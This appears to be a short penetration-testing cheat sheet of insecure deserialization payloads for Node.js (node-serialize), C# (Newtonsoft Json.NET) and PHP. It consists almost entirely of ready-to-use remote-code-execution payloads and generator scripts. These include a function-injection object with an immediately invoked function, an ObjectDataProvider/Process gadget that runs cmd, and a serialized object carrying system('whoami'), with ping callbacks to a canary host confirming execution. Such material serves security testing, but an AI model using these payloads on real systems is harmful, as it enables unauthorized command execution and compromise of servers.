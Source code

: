 # Object Deserialization
## Node.JS - node-serialize
Payload Generator:
```sh
let y = {
  rce: function() {
    require('child_process').exec('ping XXXXXXXXX.canarytokens.com', function(error, stdout, stderr) { console.log(stdout); });
  },
};

let serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Run:
```sh
node serialize.js

# You should add IIFE brackets "()" at the end of output. 
```

Payload:
```sh
{"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('ping XXXXXXXXX.canarytokens.com', (error, stdout, stderr) => { console.log(stdout); }); } ()"}
```
#####

## C# - Newtonsoft
```sh
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', 'ping -n 3   XXXXXXXXX.canarytokens.com']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
#####

## PHP - serialize
Payload Generator:
```sh
<?php

class Example2
{  
   private $hook = "system('whoami');";
}

print(urlencode(serialize(new Example2)) . "\n");
print((serialize(new Example2)) . "\n");

?>
```
Payload:
```sh
O:8:"Example2":1:{s:14:"Example2hook";s:17:"system('whoami');";} 
```
#####

